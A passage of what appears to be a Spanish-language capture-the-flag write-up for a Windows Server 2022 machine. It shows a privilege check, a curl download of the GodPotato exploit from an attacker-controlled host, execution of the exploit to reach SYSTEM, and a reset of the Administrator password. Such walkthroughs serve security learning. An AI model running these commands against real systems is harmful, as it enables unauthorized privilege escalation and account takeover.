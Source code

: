 Estamos como `haze\alexander.green` y tenemos el `SeImpersonatePrivilege`. Tal como habíamos previsto:

```bat
PS C:\Program Files\Splunk\etc\apps\splunk_shells-1.2\bin> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Ahora podemos utilizar [GodPotato](https://github.com/BeichenDream/GodPotato) para escalar privilegios. No podemos utilizar el clásico JuicyPotatoNG ya que se trata de un Windows Server 2022.

```bat
PS C:\Users\alexander.green\AppData\Local> curl -o potato.exe http://10.10.16.112:8000/potato.exe
PS C:\Users\alexander.green\AppData\Local> .\potato.exe -cmd "whoami" 
[*] CombaseModule: 0x140719795404800
[*] DispatchTable: 0x140719797995848
[*] UseProtseqFunction: 0x140719797287744
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\bcc98888-9ca8-4218-8676-4a1e4d798361\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 0000cc02-0f04-ffff-fcaf-9007db9d5584
[*] DCOM obj OXID: 0x51cfde98c4a7225e
[*] DCOM obj OID: 0xb188be00660cf12c
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 936 Token:0x772  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 3992
```

Vamos a simplemente cambiarle la contraseña al usuario administrador:

```bat
PS C:\Users\alexander.green\AppData\Local> .\potato.exe -cmd 'cmd /c net user Administrator Password123!' 
... [snip]
The command completed successfully.
```
